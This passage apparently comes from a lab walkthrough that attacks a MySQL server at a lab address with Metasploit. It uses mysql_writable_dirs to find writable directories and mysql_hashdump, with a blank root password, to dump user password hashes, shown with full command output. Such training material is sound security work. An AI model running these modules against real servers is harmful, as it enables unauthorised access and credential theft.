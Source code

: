 [!] 192.21.161.3:3306     - For every writable directory found, a file called mhainVFF with the text test will be written to the directory.
[*] 192.21.161.3:3306     - Login...
[*] 192.21.161.3:3306     - Checking /tmp...
[+] 192.21.161.3:3306     - /tmp is writeable
[*] 192.21.161.3:3306     - Checking /etc/passwd...
[!] 192.21.161.3:3306     - Can't create/write to file '/etc/passwd/mhainVFF' (Errcode: 20)
[*] 192.21.161.3:3306     - Checking /etc/shadow...
[!] 192.21.161.3:3306     - Can't create/write to file '/etc/shadow/mhainVFF' (Errcode: 20)
[*] 192.21.161.3:3306     - Checking /root...
[+] 192.21.161.3:3306     - /root is writeable
.
.
</code></pre>

**setg** is used to declare the rhosts as global so that we don't have to specify it repeatedly in a single session.

Another scanner that we can use is hashdump:

```sh
msf5 auxiliary(scanner/mysql/mysql_writable_dirs) > use auxiliary/scanner/mysql/mysql_hashdump 
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set username root
username => root
msf5 auxiliary(scanner/mysql/mysql_hashdump) > set password ""
password => 
msf5 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 192.21.161.3:3306     - Saving HashString as Loot: root:
[+] 192.21.161.3:3306     - Saving HashString as Loot: root:
[+] 192.21.161.3:3306     - Saving HashString as Loot: root:
[+] 192.21.161.3:3306     - Saving HashString as Loot: root:
[+] 192.21.161.3:3306     - Saving HashString as Loot: debian-sys-maint:*CDDA79A15EF590ED57BB5933ECD27364809EE90D
[+] 192.21.161.3:3306     - Saving HashString as Loot: root:
[+] 192.21.161.3:3306     - Saving HashString as Loot: filetest:*81F5E21E35407D884A6CD4A731AEBFB6AF209E1B
[+] 192.21.161.3:3306     - Saving HashString as Loot: ultra:*827EC562775DC9CE458689D36687DCED320F34B0
[+] 192.21.161.3:3306     - Saving HashString as Loot: guest:*17FD2DDCC01E0E66405FB1BA16F033188D18F646
[+] 192.21.161.3:3306     - Saving HashString as Loot: sigver:*027ADC92DD1A83351C64ABCD8BD4BA16EEDA0AB0
[+] 192.21.161.3:3306     - Saving HashString as Loot: udadmin:*E6DEAD2645D88071D28F004A209691AC60A72AC9
[+] 192.21.161.3:3306     - Saving HashString as Loot: sysadmin:*46CFC7938B60837F46B610A2D10C248874555C14
[*] 192.21.161.3:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Here we got a bunch of hashes of different users.

Let's again jump into MySQL and see if we have some access to internal sensitive files:


[^1]: setg is used to declare the rhosts as global so that we don't have to specify it again and again in a single session.